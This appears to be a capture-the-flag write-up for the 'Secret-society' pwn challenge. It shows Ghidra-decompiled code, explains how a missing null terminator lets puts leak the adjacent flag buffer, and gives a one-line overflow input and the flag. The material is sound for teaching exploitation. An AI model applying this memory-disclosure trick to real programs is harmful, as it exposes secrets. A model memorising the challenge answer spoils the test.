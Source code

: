 ```yaml
---
layout: post
title: "Secret-society"
author: "AnandSaminathan"
tags: ['Pwn']
---
```


Wanna enter the Secret Society? Well you have to find the secret code first!

**Files**
- [secret-society]({{site.baseurl}}/assets/Secret-society/secret-society)

## Solution

On decompiling main using Ghidra:

```cpp
undefined8 main(undefined8 argc, char **argv)
{
    undefined4 uVar1;
    undefined *puVar2;
    int64_t iVar3;
    undefined8 in_R8;
    undefined8 in_R9;
    int64_t var_e0h;
    undefined8 uStack208;
    undefined4 uStack200;
    undefined auStack196 [108];
    int64_t var_50h;
    int64_t var_d4h;
    int64_t var_18h;
    int64_t var_10h;
    int64_t var_4h;
    
    var_d4h._0_4_ = (undefined4)argc;
    setvbuf(_reloc.stdout, 0, 2, 0, in_R8, in_R9, argv);
    uVar1 = getegid();
    setresgid(uVar1, uVar1, uVar1, uVar1);
    memset(&var_50h, 0, 0x32);
    memset((int64_t)&var_d4h + 4, 0, 0x80);
    puts("What is the secret phrase?");
    fgets((int64_t)&var_d4h + 4, 0x80, _reloc.stdin);
    puVar2 = (undefined *)strchr((int64_t)&var_d4h + 4, 10);
    if (puVar2 != (undefined *)0x0) {
        *puVar2 = 0;
    }
    iVar3 = strlen((int64_t)&var_d4h + 4);
    *(undefined8 *)((int64_t)&var_d4h + iVar3 + 4) = 0x657261206577202c;
    *(undefined8 *)((int64_t)&uStack208 + iVar3) = 0x6877797265766520;
    *(undefined4 *)((int64_t)&uStack200 + iVar3) = 0x2e657265;
    auStack196[iVar3] = 0;
    iVar3 = fopen("flag.txt", 0x402023);
    if (iVar3 == 0) {
        printf("You are a double agent, it\'s game over for you.");
        exit(0);
    }
    fgets(&var_50h, 0x32, iVar3);
    printf("Shhh... don\'t tell anyone else about ");
    puts((int64_t)&var_d4h + 4);
    return 0;
}
```

By inspecting the above code (and some assembly in gdb), it was clear that the input buffer is right above the buffer which contains the flag and fgets reads exactly 108 bytes. So if the input string length is greater than 108, then there will be no null termination in the buffer and therefore, the flag will be printed by the puts. This worked:

```shell
python2 -c "print 'A'*200" | ./secret-society 
```

## Flag
  ```
csivit{Bu!!er_e3pl01ts_ar5_5asy}
  ```

